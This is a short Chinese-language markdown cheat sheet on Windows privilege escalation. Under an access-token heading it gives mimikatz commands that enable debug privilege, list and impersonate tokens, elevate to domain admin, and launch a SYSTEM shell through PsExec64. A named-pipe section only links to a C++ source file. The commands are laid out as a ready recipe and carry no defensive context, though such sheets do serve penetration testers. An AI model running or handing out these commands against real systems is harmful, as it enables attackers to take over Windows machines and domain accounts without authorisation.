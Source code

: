 ### Windows提权

1. 访问令牌

[mimika1](https://github.com/gentilkiwi/mimikatz/releases)

```bash
privilege::debug
token::list
token::elevate /id:[PID]
token::whoami
```

```bash
token::elevate
token::elevate /domainadmin
token::run /id:[PID] /process:"C:\Users\Administrator\Desktop\PSTools\PsExec64.exe -i -s cmd.exe"
```

2. 命名管道

[NamedPipeServer.cpp](提权/NamedPipeServer.cpp)
